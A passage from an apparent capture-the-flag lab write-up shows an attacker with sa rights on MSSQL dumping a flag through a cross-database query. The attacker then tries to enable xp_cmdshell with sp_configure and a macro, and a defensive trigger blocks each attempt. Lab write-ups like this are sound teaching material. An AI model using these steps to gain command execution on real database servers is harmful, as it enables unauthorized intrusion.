 

To query a different DB in MSSQL, it's `[server].[db].[schema].[table]`.
So I can dump the flag with:



    SQL> select * from flag.dbo.flag;
    flag                                       
    ----------------------------------------   
    b'POO{88d829eb************************}' 



## BackTrack

### Command Execution

#### xp_cmdshell Blocked

Now that I'm sa on the database, I want to get a shell on the host. I'll
try `xp_cmdshell`, but it fails:



    SQL> xp_cmdshell whoami
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.



I need to enable it. I'll try the `enable_xp_cmdshell` macro, but it
fails with an error:



    SQL> enable_xp_cmdshell
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 11: Attempt to enable xp_cmdshell detected. Database Administrators will be notified!
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 181: The transaction ended in the trigger. The batch has been aborted.



I can try the manual way too, but the same error:



    SQL> sp_configure 'show advanced options', '1'
    [*] INFO(COMPATIBILITY\POO_PUBLIC): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
    SQL> RECONFIGURE
    SQL> sp_configure 'xp_cmdshell', '1' 
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 11: Attempt to enable xp_cmdshell detected. Database Administrators will be notified!
    [-] ERROR(COMPATIBILITY\POO_PUBLIC): Line 181: The transaction ended in the trigger. The batch has been aborted.
